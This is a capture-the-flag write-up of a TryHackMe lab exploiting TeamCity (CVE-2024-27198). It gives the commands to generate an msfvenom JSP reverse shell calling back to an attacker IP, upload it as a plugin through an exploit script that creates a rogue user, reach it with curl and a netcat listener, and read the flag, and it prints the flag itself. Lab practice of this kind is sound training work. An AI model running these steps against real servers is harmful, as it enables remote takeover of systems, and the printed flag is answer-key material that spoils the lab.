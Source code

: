 ![[Pasted image 20241020195544.png]]

port 22, 80, 36401, 50000
![[Pasted image 20241020195716.png]]

![[Pasted image 20241020195845.png]]

![[Pasted image 20241020200821.png]]
### **Step-by-Step Explanation:**

1. **Generating the Reverse Shell JSP Payload:**
    
    bash
    
    Copy code
    
    `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.102.109 LPORT=4444 -f raw -o shell.jsp`
    
    - This command uses `msfvenom` to create a **JSP reverse shell payload**.
    - **LHOST** is your attacking machine’s IP (`10.11.102.109`).
    - **LPORT** is the port on which your netcat listener will receive the connection (`4444`).
    - **Output** is saved as `shell.jsp`.

---

2. **Uploading the Malicious Plugin:**
    
    bash
    
    Copy code
    
    `python3 CVE-2024-27198-RCE.py -t http://10.10.126.60:50000 -f shell.jsp`
    
    - This command uses the exploit script to **upload the `shell.jsp` reverse shell** as a malicious plugin to the vulnerable TeamCity instance at `10.10.126.60`.
    - The exploit successfully adds a new user (`ic3fjtsx`) and uploads the web shell under the plugin path:
        
        ruby
        
        Copy code
        
        `http://10.10.126.60:50000/plugins/1EYcIAkF/1EYcIAkF.jsp`
        

---

3. **Accessing the Web Shell:**
    
    bash
    
    Copy code
    
    `curl -u ic3fjtsx:mPmBrTvUyP http://10.10.126.60:50000/plugins/1EYcIAkF/1EYcIAkF.jsp`
    
    - Since the web shell is protected with authentication, you used the **new credentials** generated by the exploit (`ic3fjtsx:mPmBrTvUyP`).
    - This **confirms that the web shell is accessible** and ready to execute commands.

---

4. **Starting a Netcat Listener:**
    
    bash
    
    Copy code
    
    `nc -lvnp 4444`
    
    - This command starts your **listener** on port 4444 to receive the reverse shell.

---

5. **Navigating to the Target’s Filesystem:** You ran the following **`find`** command to search for the flag:
    
    bash
    
    Copy code
    
    `find / -name "flag.txt" 2>/dev/null`
    
    - The output shows that the flag is located at:
        
        arduino
        
        Copy code
        
        `/home/ubuntu/flag.txt`
        

---

6. **Retrieving the Flag:**
    
    bash
    
    Copy code
    
    `cd /home/ubuntu cat flag.txt`
    
    - This command navigates to the target user’s home directory and displays the content of the `flag.txt` file:
        
        Copy code
        
        `THM{faa9bac345709b6620a6200b484c7594}`
        

---

### **Summary:**

- You **exploited** the vulnerability in TeamCity by uploading a **JSP reverse shell plugin**.
- You **logged into the web shell** using the credentials generated by the exploit.
- You successfully **found the `flag.txt`** in `/home/ubuntu` and retrieved it using `cat`.
- The flag is:  
    **`THM{faa9bac345709b6620a6200b484c7594}`**

![[Pasted image 20241020204259.png]]
![[Pasted image 20241020204320.png]]